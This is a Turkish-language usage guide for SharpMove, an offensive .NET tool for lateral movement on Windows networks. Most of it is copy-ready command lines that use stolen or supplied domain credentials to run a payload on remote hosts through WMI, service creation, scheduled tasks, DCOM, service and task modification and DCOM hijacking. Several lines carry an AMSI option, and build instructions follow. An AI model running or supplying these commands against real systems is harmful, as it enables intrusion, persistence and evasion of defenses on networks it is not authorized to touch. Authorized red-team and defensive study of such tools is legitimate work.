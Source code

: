 # SharpMove Kullanım Rehberi

## Giriş
SharpMove, .NET tabanlı bir araçtır ve yetkili kimlik bilgileri ile uzaktaki Windows sistemlerde komut çalıştırma işlemleri gerçekleştirmek için tasarlanmıştır. Aşağıdaki rehber, SharpMove aracını kullanarak çeşitli işlemlerin nasıl yapılacağını ayrıntılı olarak açıklamaktadır.

---

## Gereksinimler
- .NET Framework yüklü bir sistem
- Visual Studio ile projeyi derlemek
- Hedef sistemde geçerli kimlik bilgileri (kullanıcı adı ve parola)

---

## Özellikler
SharpMove aşağıdaki işlemleri destekler:

- WMI (Windows Management Instrumentation)
- SCM (Service Control Manager)
- DCOM (Multiple Methods)
- Görev Zamanlayıcı (Task Scheduler)
- Hizmet DLL Hijack
- DCOM Sunucu Hijack
- Zamanlanmış Görev Modifikasyonu
- Hizmet binpath Modifikasyonu

---

## Komut Kullanımı
Aşağıda SharpMove komutlarının örnek kullanımları verilmiştir:

### 1. **WMI Query**
Hedef sistemde WMI sorgusu çalıştırma:
```
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
```

### 2. **Payload Oluşturma ve Çalıştırma**
Hedef sistemde belirli bir komutu veya dosyayı çalıştırma:
```
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
```

### 3. **VBS Çalıştırma**
Bir VBS dosyasını uzaktan çalıştırma:
```
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
```

### 4. **Görev Zamanlayıcı Kullanımı**
Yeni bir görev zamanlayıcı oluşturma:
```
SharpMove.exe action=taskscheduler computername=remote.host.local command="C:\windows\temp\payload.exe" taskname=Debug amsi=true username=domain\\user password=password
```

### 5. **DCOM Kullanımı**
DCOM metodu ile komut çalıştırma:
```
SharpMove.exe action=dcom computername=remote.host.local command="C:\windows\temp\payload.exe" method=ShellBrowserWindow amsi=true
```

### 6. **SCM Kullanımı**
Yeni bir servis oluşturup çalıştırma:
```
SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true
```

### 7. **Servis Binpath Modifikasyonu**
Mevcut bir servisin binpath parametresini değiştirme:
```
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
```

### 8. **Zamanlanmış Görev Modifikasyonu**
Mevcut bir zamanlanmış görevi değiştirme:
```
SharpMove.exe action=modschtask computername=remote.host.local command="C:\windows\temp\payload.exe" username=domain\user password=password taskname=TestTask
```

### 9. **DCOM Hijack**
DCOM sunucusunu ele geçirerek çalıştırma:
```
SharpMove.exe action=hijackdcom computername=remote.host.local clsid={40bdc4e5-d532-42e6-b667-1ab890fdebcf}
```

### 10. **Servis Başlatma**
Belirtilen bir servisi başlatma:
```
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```

---

## Derleme Talimatları
1. Visual Studio'yu açın.
2. SharpMove projesini yükleyin.
3. Çıkış türünü "Release" olarak ayarlayın.
4. Projeyi derleyin ve `SharpMove.exe` dosyasını kullanıma hazır hale getirin.

---

## Lisans
SharpMove, GPL-3.0 lisansı ile lisanslanmıştır.

---

## İletişim
Bu araç hakkında daha fazla bilgi almak için GitHub sayfasını ziyaret edebilirsiniz: [SharpMove GitHub](https://github.com/0xthirteen/SharpMove)
